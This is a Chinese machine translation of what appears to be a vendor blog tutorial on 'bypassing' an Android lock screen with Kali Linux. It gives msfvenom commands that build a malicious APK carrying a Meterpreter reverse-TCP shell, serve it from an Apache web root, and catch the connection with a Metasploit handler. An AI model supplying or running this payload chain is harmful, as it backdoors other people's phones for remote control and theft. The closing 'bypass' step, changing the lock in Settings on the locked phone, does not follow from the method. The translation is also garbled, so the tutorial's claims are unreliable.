



# 教程使用 Kali Linux 绕过 Android 手机的锁屏

> 原文：<https://blog.eldernode.com/bypass-the-lock-screen-of-android-using-kali-linux/>



出于某种原因，你可能会忘记你的 Android 锁屏模式、pin 或密码，并且正在寻找一种方法来绕过它。这可以使用 Kali Linux 来完成。本文将教你如何使用 Kali Linux 绕过 Android 手机的锁屏。如果你打算购买一台 Linux VPS 服务器，你可以在 [Eldernode](https://eldernode.com/) 网站上查看提供的软件包。

## **如何绕过安卓手机使用 Kali Linux**

通过您的 Google 帐户重置模式、pin 或密码是可能的，但可能不起作用，您将不得不在工厂重置您的设备。如果你不能使用你的谷歌账户重置你的安卓锁屏，就没有必要进行出厂重置。你可以使用 Kali Linux 绕过你的 Android 锁屏。

在这个来自 [Kali Linux 培训](https://blog.eldernode.com/tag/kali-linux/)系列的教程中，你将学习如何绕过使用 Kali Linux 的 Android 手机的锁屏。

### **在 Kali Linux 上安装 Android SDK**

Android SDK 是一款在 Android 操作系统上开发应用的工具。你可以用它在电脑上执行与 Android 操作系统相关的命令。该工具提供了构建、测试和调试 Android 应用程序所需的 API 库和开发工具。注意，你要有一个 rooted 的 Android 设备。

首先，使用以下命令更新您的系统软件包:

```
sudo apt update
```

要在 Kali Linux 上安装 Android SDK，只需运行以下命令:

```
sudo apt install android-sdk
```

让我们进入下一步。

### **利用 Metasploit 来剥削安卓手机**

一旦您在 Kali Linux 上安装了 Android SDK，现在是时候在您的 Kali Linux 上安装 Metasploit 并使用它来利用您的 Android 设备了。Metasploit 是一个开源框架，为漏洞研究和代码开发提供公共资源。它允许安全专业人员识别对其网络的入侵，并识别威胁和漏洞。

首先，你应该找到你的 Android 设备的 IP 地址。为此，进入**设置> >关于手机> >状态**路径。

使用以下命令在 Kali Linux 上安装 [**Metasploit**](https://blog.eldernode.com/install-and-use-metasploit-on-ubuntu/) :

```
sudo apt install metasploit-framework
```

**启动 PostgreSQL** 服务，并通过运行以下命令进行设置:

```
sudo msfdb init
```

以下命令可以帮助您与 Metasploit 配置的各个部分进行交互:

```
sudo msfdb
```

PostgreSQL 是 Metasploit 框架的数据库。您应该使用下面的命令启动它:

```
sudo msfdb start
```

现在，您应该通过输入以下命令来创建和初始化 msf 数据库:

```
sudo msfdb init
```

是时候**推出 msfconsole** 了。为此，请运行以下命令:

```
msfconsole -q
```

### **在 Kali Linux 中用 msfvenom 生成有效载荷**

首先，您需要生成一个 apk 文件作为恶意负载。为此，请输入以下命令:

```
msfvenom –p android/meterpreter/reverse_tcp LHOST=IP_Address LPORT=4444 R> /var/www/html/ehacking.apk
```

**–>p:**表示有效载荷类型

**–>android/meterpreter/reverse _ TCP:**它指定了一个来自目标 Android 设备的反向 meter preter 外壳

**–>LHOST:**这是你的本地 IP

**–>LPORT:**设置为监听端口

**–>R>/var/www/html:**它直接在 Apache 服务器上给出输出

**–>apk:**是最终输出的最终名称

等待一段时间，直到生成一个 apk 文件。

### **对卡莉 Linux** 发动攻击

启动 Metasploit 控制台并获得 Android 设备的 IP 地址后，输入以下命令启动从 Kali Linux 计算机到 Android 计算机的反向 TCP 连接:

```
use exploit/multi/handler
```

```
set PAYLOAD android/meterpreter/reverse_tcp
```

```
set LHOST
```

```
set LPORT 4444
```

```
exploit
```

连接建立后，将在 Android 设备上打开一个 Meterpreter 会话。在此部分，您可以输入必要的命令来绕过锁定屏幕。



看到**端口 4444** 后，确保连接到 Android 设备。

### **绕过使用 Kali Linux 的安卓手机锁屏**

现在你所要做的就是进入**设置>屏幕**锁定路径。然后为 Android 手机选择您想要的屏幕锁定类型:



最后，选择您的密码并确认。

就是这样！您已经成功绕过了使用 Kali Linux 的 android 手机的锁屏。

## 结论

你可能因为某些原因忘记了你的安卓锁屏密码。在这篇文章中，我们教你如何使用 Kali Linux 绕过 android 手机的锁屏。我希望这篇教程对你有用，并帮助你绕过使用 Kali Linux 的 android 手机的锁屏。如果你有任何问题或建议，可以在评论区联系我们。